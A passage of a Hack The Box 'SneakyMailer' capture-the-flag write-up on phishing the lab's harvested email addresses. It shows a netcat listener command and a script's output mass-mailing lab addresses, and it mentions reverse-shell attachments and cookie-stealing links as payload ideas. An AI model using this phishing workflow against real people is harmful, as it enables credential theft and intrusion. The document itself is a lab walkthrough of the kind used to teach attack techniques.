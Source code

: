 ### 4. Phish e-mail addresses
Create a script to send an e-mail to every address. (see phish.py) The script allows me to easily test different payloads until I find one which works. I tried to use other tools first, such as SEtoolkit, but in the end I decided to just do my own thing.
I had two ideas for how to do the payload:
- Give an attachment binary that opens a reverse shell.
- Supply a link to a page that steals a cookie.
The easiest thing to try first was to send a simple payload that checks to see if links are being interacted with.  
Firstly, open port 80 for listening.
```bash
kali@kali:~/Desktop/htb/sneakymailer$ sudo nc -lvp 80
Listening on 0.0.0.0 80
```
Send the emails:
```bash
kali@kali:~/Desktop/htb/sneakymailer$ ./phish.py 
Sending to: airisatou@sneakymailer.htb - message sent!
Sending to: angelicaramos@sneakymailer.htb - message sent!
Sending to: ashtoncox@sneakymailer.htb - message sent!
Sending to: bradleygreer@sneakymailer.htb - message sent!
Sending to: brendenwagner@sneakymailer.htb - message sent!
Sending to: briellewilliamson@sneakymailer.htb - message sent!
Sending to: brunonash@sneakymailer.htb - message sent!
Sending to: caesarvance@sneakymailer.htb - message sent!
Sending to: carastevens@sneakymailer.htb - message sent!
Sending to: cedrickelly@sneakymailer.htb - message sent!
Sending to: chardemarshall@sneakymailer.htb - message sent!
Sending to: colleenhurst@sneakymailer.htb - message sent!
Sending to: dairios@sneakymailer.htb - message sent!
Sending to: donnasnider@sneakymailer.htb - message sent!
Sending to: doriswilder@sneakymailer.htb - message sent!
Sending to: finncamacho@sneakymailer.htb - message sent!
Sending to: fionagreen@sneakymailer.htb - message sent!
Sending to: garrettwinters@sneakymailer.htb - message sent!
Sending to: gavincortez@sneakymailer.htb - message sent!
Sending to: gavinjoyce@sneakymailer.htb - message sent!
Sending to: glorialittle@sneakymailer.htb - message sent!
Sending to: haleykennedy@sneakymailer.htb - message sent!
Sending to: hermionebutler@sneakymailer.htb - message sent!
Sending to: herrodchandler@sneakymailer.htb - message sent!
Sending to: hopefuentes@sneakymailer.htb - message sent!
Sending to: howardhatfield@sneakymailer.htb - message sent!
Sending to: jacksonbradshaw@sneakymailer.htb - message sent!
Sending to: jenagaines@sneakymailer.htb - message sent!
Sending to: jenettecaldwell@sneakymailer.htb - message sent!
Sending to: jenniferacosta@sneakymailer.htb - message sent!
Sending to: jenniferchang@sneakymailer.htb - message sent!
Sending to: jonasalexander@sneakymailer.htb - message sent!
Sending to: laelgreer@sneakymailer.htb - message sent!
Sending to: martenamccray@sneakymailer.htb - message sent!
Sending to: michaelsilva@sneakymailer.htb - message sent!
Sending to: michellehouse@sneakymailer.htb - message sent!
Sending to: olivialiang@sneakymailer.htb - message sent!
Sending to: paulbyrd@sneakymailer.htb - message sent!
Sending to: prescottbartlett@sneakymailer.htb - message sent!
Sending to: quinnflynn@sneakymailer.htb - message sent!
Sending to: rhonadavidson@sneakymailer.htb - message sent!
Sending to: sakurayamamoto@sneakymailer.htb - message sent!
Sending to: sergebaldwin@sneakymailer.htb - message sent!
Sending to: shaddecker@sneakymailer.htb - message sent!
Sending to: shouitou@sneakymailer.htb - message sent!
Sending to: sonyafrost@sneakymailer.htb - message sent!
```